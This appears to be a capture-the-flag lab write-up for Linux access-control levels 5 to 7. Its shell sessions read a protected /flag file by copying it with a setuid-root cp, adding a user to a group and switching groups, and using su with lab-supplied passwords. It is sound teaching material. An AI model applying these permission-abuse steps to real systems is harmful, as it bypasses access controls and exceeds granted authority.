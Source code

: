 
# L5

> How does SETUID and cp work?

The `/bin/cp` can open and read the `/flag` and write to the file `~/flag` owned `hacker`.

```
-rwsr-xr-x 1 root root 153976 Sep  5  2019 /bin/cp
hacker@access-control~level5:/challenge$ touch ~/flag
hacker@access-control~level5:/challenge$ /bin/cp /flag ~/flag
hacker@access-control~level5:/challenge$ cat ~/flag
```

--- 

# L6

> Flag owned by a different group

```
----r----- 1 root group_skcujjxg 60 Jul 25 16:18 /flag
The password for group_skcujjxg is: wacauykv
hacker@access-control~level6:/challenge$ grep 'group_skcujjxg' /etc/group # check group members
group_skcujjxg:x:1001:
hacker@access-control~level6:/challenge$ groups hacker
hacker : hacker
hacker@access-control~level6:/challenge$ usermod -a -G group_skcujjxg hacker # add hacker in to group group_skcujjxg
hacker@access-control~level6:/challenge$ groups hacker
hacker : hacker group_skcujjxg
----r----- 1 root group_skcujjxg 60 Jul 25 16:18 /flag
hacker@access-control~level6:/challenge$ newgrp group_skcujjxg # change current shell main group to  group_skcujjxg
Password:
hacker@access-control~level6:/challenge$ cat /flag
```

--- 

# L7

> Flag owned by you with different permissions, multiple users

```
Before:
-r-------- 1 root root 60 Jul 25 16:34 /flag
Created user user_dswmellh with password khecrspc
After:
-------r-- 1 hacker root 60 Jul 25 16:34 /flag
hacker@access-control~level7:/challenge$ su user_dswmellh # login with new user user_dswmellh
Password:
user_dswmellh@access-control~level7:/challenge$ cat /flag
```

--- 
